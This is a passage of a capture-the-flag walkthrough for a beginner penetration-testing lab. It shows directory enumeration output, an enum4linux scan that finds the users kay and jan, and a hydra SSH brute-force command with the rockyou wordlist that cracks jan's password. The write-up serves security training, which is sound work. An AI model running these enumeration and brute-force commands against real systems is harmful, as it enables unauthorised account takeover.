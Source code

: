 ```
Output File: /home/kali/reports/_10.10.193.213/_24-04-16_15-37-13.txt

Target: http://10.10.193.213/

[15:37:13] Starting:                                                                                   
[15:37:19] 301 -  320B  - /development  ->  http://10.10.193.213/development/
[15:48:00] 403 -  301B  - /server-status                                    
                                                                              
Task Completed                           
```
As you can see the hidden directory is /development

![dev][2]


#### 4. Before we explore those files, lets get a linux enumeration running on the web server using enum4linux and have a look at the possible usernames and other info: 

```enum4linux -a 10.10.52.25 > basicenum.txt```

While that runs we can check out some of the text notes left in the /development directory…

dev.txt:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K
2018-04-22: SMB has been configured. -K
2018-04-21: I got Apache set up. Will put in our content later. -J
```
j.txt:
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
> From this info we can assume that we are looking for a “k” and “j” as possible usernames to look for. 
> This context also explains the Apache version in the scan that we found and the SMB port also being open (port 445)

Let’s check back into our scan: 
```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
> We find that there are two users named jan and kay.

#### 5. The username is jan

#### 6. Now we can bust out hydra to start bruteforcing this password for jan using SSH and the rockyou wordlist: 

`hydra -l jan -P /usr/share/wordlists/SecLists/Passwords/rockyou.txt ssh://10.10.52.25`

```
[22][ssh] host: 10.10.68.148   login: jan   password: armando

[1]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/nmap.png
[2]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/development.png